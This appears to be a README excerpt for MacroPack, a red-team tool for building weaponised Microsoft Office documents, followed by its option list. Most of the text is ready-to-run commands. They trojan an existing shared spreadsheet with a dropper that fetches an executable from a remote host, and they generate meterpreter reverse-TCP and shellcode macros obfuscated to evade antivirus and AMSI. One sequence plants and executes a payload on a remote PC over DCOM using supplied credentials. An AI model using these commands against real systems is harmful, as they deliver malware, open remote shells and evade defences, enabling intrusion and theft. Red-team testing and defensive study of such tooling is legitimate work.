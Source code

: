 

### Some MacroPack Pro examples

- Trojan the existing shared "report.xlsm" file with a dropper. Use anti-AV and anti-reverse features.
```bash
echo "http://10.5.5.12/drop.exe" "dropped.exe" | macro_pack.exe -o -t DROPPER --bypass --stealth --antisandox --trojan "E:\accounting\report.xls"  
```

- Generate a Word file containing VBA self encoded x64 reverse meterpreter VBA payload (will bypass most AV). 
Keep-alive is needed because we need meterpreter to stay alive before we migrate.
```bash
msfvenom.bat -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --autopack --keep-alive  -G  out.docm
```

- Trojan a PowerPoint file with a reverse raw shellcode. Macro is obfuscated and mangled to bypass AMSI and most antiviruses.
```bash
echo beacon.bin | macro_pack.exe -o -t SHELLCODE --bypass -T  hotpics.pptm
```

- Execute a macro on a remote PC using DCOM.
```batch
REM Step 1: Ensure you have enough rights
net use  \\192.168.0.8\c$ /user:domain\username password

REM Step 2: Generate document, for example here, meterpreter reverse TCP Excel file
echo 192.168.0.5 4444 | macro_pack.exe -t METERPRETER -o -G meter.xlsm
REM Step 3: Copy the document  somewhere on remote share
copy meter.xlsm "\\192.168.0.8\c$\users\username\meter.xlsm"
REM Step 4: Execute!
macro_pack.exe --dcom="\\192.168.0.8\c$\users\username\meter.xlsm"

REM Step 2 to 4 in one step:
echo 192.168.0.5 4444 | macro_pack.exe -t METERPRETER -o -G "\\192.168.0.8\c$\users\username\meter.xlsm" --dcom="\\192.168.0.8\c$\users\username\meter.xlsm"

```



## All community version options

```
 Main payload generation options:
    -G, --generate=OUTPUT_FILE_PATH. Generates a file. Will guess the payload format based on extension.
        MacroPack supports most Ms Office and VB based payloads as well various kinds of shortcut files.
        Note: Office payload generation requires that MS Office application is installed on the machine
    --listformats View all file formats which can be generated by MacroPack
    -f, --input-file=INPUT_FILE_PATH A VBA macro file or file containing params for --template option or non VB formats
        If no input file is provided, input must be passed via stdin (using a pipe).
    -t, --template=TEMPLATE_NAME    Use code template already included in MacroPack
        MacroPack supports multiple predefined templates useful for social engineering, redteaming, and security bypass
    --listtemplates View all templates provided by MacroPack
    -e, --embed=EMBEDDED_FILE_PATH Will embed the given file in the body of the generated document.
        Use with EMBED_EXE template to auto drop and exec the file or with EMBED_DLL to drop/load the embedded dll.


```